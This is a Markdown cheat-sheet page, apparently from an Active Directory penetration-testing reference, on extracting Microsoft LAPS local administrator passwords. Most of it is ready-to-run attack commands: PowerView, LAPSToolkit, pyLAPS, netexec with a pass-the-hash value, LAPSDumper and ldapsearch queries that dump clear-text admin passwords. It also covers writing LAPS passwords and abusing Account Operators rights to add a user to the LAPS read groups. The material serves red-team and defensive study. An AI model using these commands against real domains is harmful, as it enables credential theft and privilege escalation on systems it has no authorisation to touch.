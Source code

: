 # Password - LAPS

## Reading LAPS Password

> Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure. 


### Determine if LAPS is installed

```ps1
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```


### Extract LAPS password

> The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
 - Windows/Linux:
    ```ps1
    bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
    ```
 - From Windows:

   * adsisearcher (native binary on Windows 8+)
       ```powershell
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
       ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
       ```

   * [PowerView](https://github.com/PowerShellEmpire/PowerTools)
       ```powershell
       PS > Import-Module .\PowerView.ps1
       PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
       ```

   * [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
       ```powershell
       $ Get-LAPSComputers
       ComputerName                Password                                 Expiration         
       ------------                --------                                 ----------         
       example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

       $ Find-LAPSDelegatedGroups
       $ Find-AdmPwdExtendedRights
       ```

   * Powershell AdmPwd.PS
       ```powershell
       foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
       ```

 - From Linux:

   * [pyLAPS](https://github.com/p0dalirius/pyLAPS) to **read** and **write** LAPS passwords:
       ```bash
       # Read the password of all computers
       ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       # Write a random password to a specific computer
       ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       ```
     
   * [netexec](https://github.com/Pennyw0rth/NetExec):
       ```bash
       netexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
       ```

   * [LAPSDumper](https://github.com/n00py/LAPSDumper) 
       ```bash
       python laps.py -u 'user' -p 'password' -d 'domain.local'
       python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
       ```
   
   * ldapsearch
      ```bash
      ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
      ```


### Grant LAPS Access

The members of the group **"Account Operator"** can add and modify all the non admin users and groups. Since **LAPS ADM** and **LAPS READ** are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

```ps1
Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain "domain.local"
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain "domain.local"
```